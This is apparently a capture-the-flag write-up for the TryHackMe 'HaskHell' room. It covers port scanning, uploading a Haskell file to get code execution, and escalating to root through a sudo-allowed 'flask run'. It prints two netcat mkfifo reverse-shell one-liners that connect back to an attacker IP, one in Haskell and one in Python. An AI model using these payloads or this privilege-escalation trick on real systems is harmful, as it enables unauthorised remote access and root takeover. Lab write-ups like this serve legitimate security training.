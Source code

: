 ```yaml
---
title: THM HaskHell writeup
description: Tryhackme HaskHell room writeup
authors: ["shivam"]
slug: haskhell
image: https://tryhackme-images.s3.amazonaws.com/room-icons/fcf1ff6eabd1d1e09500184b049a2e66.png
tags: ["haskell", "flask"]
---
```


Hello everyone,

Today we are going to solve haskhell machine from Tryhackme. we will learn how to get reverse shell with haskhell and how to escalate our privileges with flask.

![](https://tryhackme-images.s3.amazonaws.com/room-icons/fcf1ff6eabd1d1e09500184b049a2e66.png)

<!--truncate-->

## Nmap results

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
5001/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Homepage
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

--> I got this page on port `5001`

![](Attachments/Pastedimage20220104121541.png)

--> After reading the content of website i found that this website is only accepting the haskell(.hs) file so i googled how to execute system commands in haskell and i found this code.

```hs
import System.Process

main = callCommand "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.10.10 4444 >/tmp/f"
```

--> But where we will upload this file so let's run the gobuster !

## Gobuster results

--> I found only one directory called `/submit` in which we can upload file so i uploaded my payload there and after clicking upload button i got the reverse shell !

![](Attachments/Pastedimage20220104122310.png)

## Privesc

--> i found the ssh keys of `prof` user in his home dir.

after logging in as that user i found that we can run `/usr/bin/flask run` as root so i found one directory in same directory called `__pycache__` in which i found 2 files in which one file was getting executed by root so i done strings on it and i found it's using `/home/prof/app.py` file but i didn't found any file so i made one !

![](https://cdn.discordapp.com/attachments/927969387514847273/927970364645052506/unknown.png)

![](https://cdn.discordapp.com/attachments/927969387514847273/927970747534692412/unknown.png)

and added this code :

```py
import os
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.10.10 6969 >/tmp/f")
```

--> But after running the file i got one error and i found that we have to add that file as FLASK_APP environmental variable

```bash
export FLASK_APP=app.py
```

and after that i again ran `sudo /usr/bin/flask run` and got the root shell !
